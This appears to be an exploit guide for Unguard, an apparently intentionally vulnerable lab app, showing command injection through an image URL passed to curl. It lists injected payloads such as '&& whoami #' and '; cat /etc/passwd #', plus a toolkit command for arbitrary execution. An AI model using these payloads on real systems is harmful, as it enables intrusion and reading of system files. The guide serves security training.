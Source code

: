 # Command injection when posting images

Command injection (sometimes CMD injection) is an attack that involves executing arbitrary commands on some host OS.
Typically, this happens because of insufficient user input validation.

When posting images in Unguard, the user-controlled image URL is passed to the `curl` CLI program,
making it possible to encode additional commands that will then just be executed on the `proxy-service`.

## Preconditions and Requirements

For this exploit to work you need:

* [unguard](../../../docs/DEV-GUIDE.md) deployed and running
* (optional) [unguard-exploit-toolkit](../../INSTALL.md) set up

## Exploitation

To exploit the command injection vulnerability in the `proxy-service`, you have to simply log into Unguard
and post an image with an URL that adds a second command to the `curl` call.

### w/o Toolkit CLI

Without the CLI, you can simply craft your own payload:

Posting the following will result in executing `whoami` after example.com has been fetched.
Notice the trailing `#` will comment out all the other original curl arguments, which is essential.

```text
example.com && whoami #
```

Sending that request will result in a similar command to be executed on the `proxy-service`:

```bash
/bin/sh -c curl --silent -S example.com && whoami # --max-time 10 --output somepath.jpg
```

A few more example payloads that can be copied and pasted into the image URL field:

```bash
# This will write linux kernel information into a file
example.com && uname -a > pwned #
```

```bash
# This will simply print /etc/passwd (invisible to the attacker)
; cat /etc/passwd #
```

### With Toolkit CLI

Using the CLI, you can specify any command to be executed.

Make sure to use `ug-exploit login` first, as you need to be logged in to post content.

Afterwards, just use `ug-exploit cmd-inject-proxy "<your-command>"` to execute arbitrary commands.

#### Examples

Writing current user into a file

```shell
$ ug-exploit cmd-inject-proxy "whoami > /tmp/pwned"
```

## Further Details

* [Command Injection - OWASP](https://owasp.org/www-community/attacks/Command_Injection)
* [Improper Neutralization of Special Elements used in a Command - CWE](https://cwe.mitre.org/data/definitions/77.html)
